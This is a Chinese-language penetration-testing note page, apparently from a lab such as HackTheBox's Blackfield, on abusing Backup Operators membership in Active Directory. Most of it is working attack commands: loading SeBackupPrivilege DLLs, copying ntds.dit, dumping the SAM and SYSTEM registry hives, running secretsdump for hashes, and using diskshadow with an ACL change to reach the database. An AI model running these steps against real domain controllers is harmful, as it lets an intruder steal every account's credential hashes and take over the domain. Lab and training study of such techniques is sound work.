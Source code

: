 	- [Print Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-printoperators)
	- [Server Operators](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#bkmk-serveroperators)

## Backup Operators
>[!warning ] 小節重點
>如果有在Backup Operators 群組裡面。我們就有機會可以透過開啟SeBackupPrivilege來複製出機敏資料。
### 匯入dll
- [POC](https://github.com/giuliano108/SeBackupPrivilege/tree/master/SeBackupPrivilegeCmdLets/bin/Debug)
```powershell
Import-Module .\SeBackupPrivilegeUtils.dll
Import-Module .\SeBackupPrivilegeCmdLets.dll
```
### 開啟SeBackupPrivilege
```powershell
Set-SeBackupPrivilege
Get-SeBackupPrivilege
```
### 竊取 NTDS.dit
```powershell-session
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
- 要抓取其他材料呦
```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
- 透過secretsdump解析
```shell
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
### 使用DiskShadow
>[!warning ] 小節重點
>原理是把C槽backup出來，然後把裡面的ntds.dit抓出來
- shadowscript.txt
```
set context persistent nowriters#
add volume c: alias binsec#
create#
expose %binsec% z:#
```
- 建立`C:\.enum`
- 修改使用者權限，利用 ACL-object讓svc_backup用有對`C:\Windows\NTDS\ntds.dit`的存取權
``` powershell
*Evil-WinRM* PS C:\.enum> $NTDS = "C:\Windows\NTDS\ntds.dit"
*Evil-WinRM* PS C:\.enum> $acl = Get-Acl $NTDS
*Evil-WinRM* PS C:\.enum> $AccessRule = New-Object System.Security.AccessControl.FileSystemAccessRule("blackfield.local\svc_backup","FullControl","Allow")
*Evil-WinRM* PS C:\.enum> $acl.SetAccessRule($AccessRule)
*Evil-WinRM* PS C:\.enum> $acl | Set-Acl $NTDS
```
- 檢查ACL 
``` powershell
*Evil-WinRM* PS C:\.enum> Get-acl $NTDS | select -expand accesstostring
BLACKFIELD\svc_backup Allow  FullControl
NT AUTHORITY\SYSTEM Allow  FullControl
BUILTIN\Administrators Allow  FullControl
```
- 執行shadowscript.txt
``` powershell
*Evil-WinRM* PS C:\.enum> diskshadow.exe /s C:\.enum\shadowscript.txt
```